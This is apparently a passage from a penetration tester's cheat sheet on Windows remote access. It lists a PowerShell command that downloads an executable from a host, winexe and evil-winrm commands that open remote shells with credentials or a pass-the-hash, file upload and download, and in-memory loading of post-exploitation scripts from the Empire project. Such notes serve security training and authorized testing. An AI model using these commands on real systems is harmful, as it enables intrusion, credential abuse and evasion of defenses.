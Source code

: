 ### Net.webclient

> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.4.30.255/file.exe', 'file.exe')



# RDP,remote connection etc


### Winexe

we can connect to a windows shell using winexe

> winexe -U 'admin%password' //10.10.5.159 cmd.exe

If we want a system shell just provide a --system flag in above command


### evil-winrm
We can connect to windwows shell if we have gained credentials

evil-winrm -u Administrator -p password -i IP -P PORT
               OR
              
 for pass the hash attack              
evil-winrm -u Administrator -H HASH -i IP -P PORT

WE can upload and download files using download and upload keywords

> upload LOCAL_FILEPATH REMOTE_FILEPATH

> download REMOTE_FILEPATH LOCAL_FILEPATH

  ### INclude directory share in session(Powershell scripts only)

 Uploading tools is all well and good, but if the tool happens to be a PowerShell script then there is another (even more convenient) method. If you check the   help menu for evil-winrm, you will see an interesting -s option. This allows us to specify a local directory containing PowerShell scripts -- these scripts will be made accessible for us to import directly into memory using our evil-winrm session (meaning they don't need to touch the disk at all). For example, if we  happened to have our scripts located at /opt/scripts, we could include them in the connection with:
 evil-winrm -u USERNAME  -p PASSWORD -i IP -s /opt/scripts

> Some important scripts like port scan or privelege escalation written in ps1 can be attached with our winrm session without touching the disk, We can download many ps1 scripts used for postexploitation from empire github repo

> https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/situational_awareness/network/



## RDP
